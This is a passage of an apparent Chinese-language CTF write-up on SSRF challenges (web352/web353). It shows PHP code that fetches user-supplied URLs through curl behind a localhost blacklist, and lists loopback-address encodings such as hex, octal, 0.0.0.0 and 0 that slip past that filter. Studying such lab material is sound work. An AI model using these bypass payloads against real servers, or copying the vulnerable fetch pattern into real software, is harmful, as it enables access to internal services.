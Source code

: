 ```
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

parse_url

解析 URL 并返回关联数组，包含在 URL 中出现的各种组成部分。数组的元素值*不会* URL 解码。

代码中先判断是否为HTTP或https协议，之后判断我们传入的url中是否含有localhost和127.0.0，如果没有则执行下面语句

过滤掉了localhost和127.0.0

可以用127.0.1 、127.1、 127。0.0.1 或者转成16进制 2进制 进行

```
url=http://0x7F.0.0.1/flag.php   16进制
url=http://0177.0.0.1/flag.php    8进制
url=http://0.0.0.0/flag.php
url=http://0/flag.php
url=http://127.127.127.127/flag.php

```



### web353

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```
